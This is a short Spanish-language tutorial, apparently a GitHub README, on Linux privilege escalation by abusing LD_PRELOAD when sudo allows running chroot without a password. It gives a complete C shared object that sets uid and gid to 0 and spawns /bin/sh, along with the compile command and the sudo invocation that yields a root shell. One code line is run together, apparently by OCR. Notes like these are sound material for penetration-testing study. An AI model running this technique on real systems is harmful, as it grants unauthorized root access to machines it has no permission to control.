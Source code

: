 # ESCALADA VARIABLE LD_PRELOAD
```bash
LD_PRELOAD es una variable ambiental opcional que contiene una o más rutas a bibliotecas compartidas u objetos compartidos, que el cargador cargará antes que cualquier otra biblioteca compartida, incluida la biblioteca en tiempo de ejecución de C (libc.so). Es decir, precarga una biblioteca.
```

Las maneras en que se buscan y cargas las librerías tenemos:

    LD_PRELOAD: Objetos compartidos que se cargaran antes de cualquier libreria.

    LD_LIBRARY_PATH: Camino a los directorios de librerias.

    /etc/ld.so.conf

LD_Preload es la variable de entorno que lista las rutas de la librerías compartidas, al igual que /etc/ld.so.preload.

Lo primero que debemos tener en cuenta es que debemos tener algunos derechos de sudo, en mi caso puedo ejecutar el binario chroot como root sin contraseña, de forma que lo aprovecharemos.

Generamos un pequeño programa en C llamado escalada.c.

```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

Lo compilamos con el siguiente comando:

`cc -fPIC -shared -o escalada.so escalada.c -D_GNU_SOURCE -nostartfiles`

Una vez compilado ejecutamos el siguiente comando:

`sudo LD_PRELOAD=/tmp/escalada.so chroot`

**Y seremos root**

Añadiré más vectores de escalada poco a poco.

